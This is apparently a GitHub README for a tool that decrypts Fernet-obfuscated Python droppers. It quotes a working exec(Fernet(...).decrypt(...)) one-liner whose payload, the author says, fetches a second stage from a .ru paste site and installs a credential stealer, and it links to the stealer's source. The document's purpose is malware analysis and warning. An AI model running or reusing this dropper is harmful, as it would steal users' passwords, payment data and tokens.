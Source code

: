 ## fernet decrypter
this code is simply to decode any type of fernet code that would usually run malware on your computer using python.
fernet is not only used to run malicious software keep that in mind. i am just giving an example 

## example of malicious code
`;exec(Fernet(b'q7MBuNUXpnt4GH9rHx3rNM1_HFsACuJIk1ZCLPBpU7I=').decrypt(b'gAAAAABk8g4eRFjyGDEmrLhaqqcXsILFNwp4eMaESVA1JWnfoVNhhSPBV_1ngtqebygT9MrIQ95jI1aR1fTfmknlOBY_bumaE8dAZ4WotYGKn0K-cRje6R3Ny4G75lRs8bgV5vv50fD0DtiWTKVsT4VP_FeUHA3so_StnOnG-rgPUWkIgiaX9UdRExOsX0eSqzHxP-88zENWuWdYNOflCmEDVdYOhuxYSg=='))`

if we break this code down it shows the normal python type of execution which is using a fernet key and an encrypted message to decoded a message using fernet library. when this code is ran through the decrypter it prints out a website `https://bananasquad.ru/paste`. when entering this site it shows again the same method of execution but now with a much longer encrypted message which when decoded shows a malicious python code that will steal every data on your computer such as passwords, credit card, discord credentials and so on. after downloading the stealer file ([stealer example](https://github.com/Nezar187/Fernet-Decrypter/blob/main/example%20stealer/stealer.py)) it reruns the fernet request with a new token and key.

at this point im to lazy to explain further on but in conclusion you should always look out for this type of method for execution.
